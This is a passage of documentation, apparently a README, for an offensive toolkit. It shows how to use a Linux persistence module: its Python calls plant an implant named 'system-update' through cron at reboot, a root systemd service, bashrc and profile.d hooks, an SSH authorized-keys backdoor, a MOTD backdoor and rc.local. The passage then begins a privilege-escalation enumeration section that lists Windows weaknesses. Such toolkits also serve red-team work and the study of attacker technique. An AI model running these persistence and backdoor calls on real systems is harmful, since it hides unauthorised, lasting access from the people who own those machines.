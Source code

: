 ```bash
# Cleanup
python persistence/linux_persist.py --cleanup
```

**Python API:**

```python
from persistence.linux_persist import LinuxPersistence

persist = LinuxPersistence('/tmp/implant.sh', name='system-update')

# Cron job (runs on reboot)
persist.cron_job(schedule='@reboot')

# Systemd service
persist.systemd_service(description='System Update Service', user='root')

# Bashrc persistence
persist.bashrc_persistence('/tmp/implant.sh &', global_bashrc=False)

# Profile.d script
persist.profile_d_script('update.sh')

# SSH key backdoor
public_key = "ssh-rsa AAAAB3NzaC1yc2EAAAADAQA..."
persist.ssh_authorized_keys(public_key)

# MOTD backdoor
persist.motd_backdoor()

# rc.local
persist.rc_local()

# Generate report
print(persist.generate_report())

# Cleanup
persist.cleanup_persistence()
```

### 3. Privilege Escalation (`persistence/privilege_escalation.py`)

Automated privilege escalation enumeration for Windows and Linux.

**Detects:**

**Windows:**
- Dangerous privileges (SeImpersonatePrivilege, SeDebugPrivilege, etc.)
- Unquoted service paths
- Weak service permissions
- AlwaysInstallElevated
- Modifiable scheduled tasks
- Autologon credentials
